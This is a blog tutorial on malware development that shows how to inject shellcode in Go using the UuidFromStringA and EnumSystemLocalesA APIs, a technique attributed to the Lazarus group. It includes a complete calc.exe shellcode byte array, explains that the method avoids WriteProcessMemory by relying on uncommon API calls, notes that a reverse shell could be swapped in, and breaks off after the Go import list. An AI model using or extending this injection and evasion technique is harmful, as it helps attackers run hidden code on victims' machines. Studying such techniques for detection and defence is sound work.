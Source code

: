 ```yaml
---
title: "Malware-Development-2-UuidFromString-shellcode-injection-(Golang)"
description: "Today we’ll learn an advanced shellcode injection technique used by Lazarus group which uses UuidFromStringA API call. In this technique, the malware.."
slug: "malware-development-uuidfromstring-shellcode-injection-golang"
date: "2024-10-14"
author: "Waseem Akram"
image: "/images/posts/maldev/2/thumb-uuidfromstring.webp"
---
```


## Introduction

Today we’ll learn an advanced shellcode injection technique used by Lazarus group which uses `UuidFromStringA` API call. In this technique, the malware uses the `UuidFromStringA` API to convert a string into a `UUID`. The malware then uses the UUID to locate the address of the shellcode in memory. The malware then injects the shellcode into the target process using the `CreateRemoteThread` API call.

## Explanation

In this demo we’ll be using a `calc.exe` shellcode instead of a reverse shell

> calc.exe shellcode in Golang format

```go
calc_shellcode := []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3}
```

This technique uses `UuidFromStringA` API call from `Rpcrt4.dll` which can be used to decode shellcode as uuid and writing it to a heap pointer. In this way it doesn’t use `WriteProcessMemory.`

It also uses `EnumSystemLocalesA` API call from kernel32.dll to resume and execute shellcode

At this point, if you have read my last post talking about `CreateRemoteThread` you may have noticed that all shellcode injection technique try to achieve this results:

- 1. Allocate memory
- 2. Write buffer
- 3. Execute shellcode

As you can see the used functions change but the goal is the same so the key is doing this with uncommon API calls

## Code

```go
package main

import (
  "os"
  "fmt"
  "log"
  "bytes"
  "unsafe"
  "encoding/binary"

  "golang.org/x/sys/windows"
  "github.com/google/uuid"
)
```
